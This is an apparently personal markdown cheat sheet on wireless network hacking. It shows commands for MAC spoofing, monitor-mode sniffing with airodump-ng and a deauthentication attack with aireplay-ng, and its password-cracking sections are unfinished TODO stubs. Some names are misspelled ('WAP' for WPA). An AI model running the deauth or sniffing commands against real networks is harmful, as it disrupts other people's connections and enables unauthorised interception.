 # Network Hacking Main Page

- [Changing MAC Address](#mac)
- [WIFI Sniffing](#snif)
- [Deauth Attack](#deauth)
- [WIFI Password Craking](#wifipasscrack)
  - [WEP](#wep)
  - [WAP](#wap)
  - [WAP2](#wap2)

## Show available INTERFACE info
```bash
ifconfig
iwconfig
```

<a name="mac"/>

## Changing MAC adresse

**desc** : *Change MAC adresse*

MAC = Media Access Control

```bash
ifconfig <INTERFACE> down
ifconfig <INTERFACE> hw ether <MAC_ADDRESS> # hw for hardware
ifconfig <INTERFACE> up
```

<a name="snif"/>

## WIFI Sniffing

**desc** : *`aerodump-ng` is a packet sniffer program*
 - Must have a wifi key in wireless `monitor mode`
 - Use to capture packets within range
 - Display detailed info about networks
 - part of "aircrak-ng" suit

usage : `airodump-ng <INTERFACE>`

1. Must change wireless mode : Managed to Monitor
   ```bash
   # step 1
   ifconfig <INTERFACE> down
   # step 2
   airmon-ng check kill
   # step 3
   iwconfig <INTERFACE> mode monitor
   # step 4
   ifconfig <INTERFACE> up
   ```
2. Run `airodump-ng`

options :
- `--bssid <MAC_ADDRESS>` : Select MAC adresse to sniff
  - example
    - ```bash
      airodump-ng --bssid 00:11:22:33:44:55 --channel 2 --write save mon0`
      ```
- `--write <FILE_NAME>` : Save the sniffing to a file
  - Use [Wireshark]() to read the `.cap` file
- `--channel <CHANNEL_ID>`: Select channel 
- `--band` : Select frequency
  - "a" : use 5Gz only
  - "bg" : use 2.4Gz only
  - "n" : use both
  - "ac" : use lower than 6Gz
  -  example
     - ```bash
        airodump-ng --band abg mon0
        ```

Simple sniffing 2.4Gz
```bash
airodump-ng <INTERFACE>
```

<a name="deauth"/>

## Deauth Attack with `aireplay-ng`

usage : `aireplay-ng --deauth <#DEAUTH_PACKETS> -a <NETWORK_MAC> -c <TARGET_MAC> <INTERFACE>`

1. Run `aerodump-ng`
2. Run `aireplay-ng`

example : 
```bash
aireplay-ng --deauth 100000 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55 mon0
```

<a name="wifipasscrack"/>

## WIFI password cracking

<a name="wep"/>

### WEP

TODO

<a name="wap"/>

### WAP

TODO

<a name="wap2"/>

### WAP2

TODO
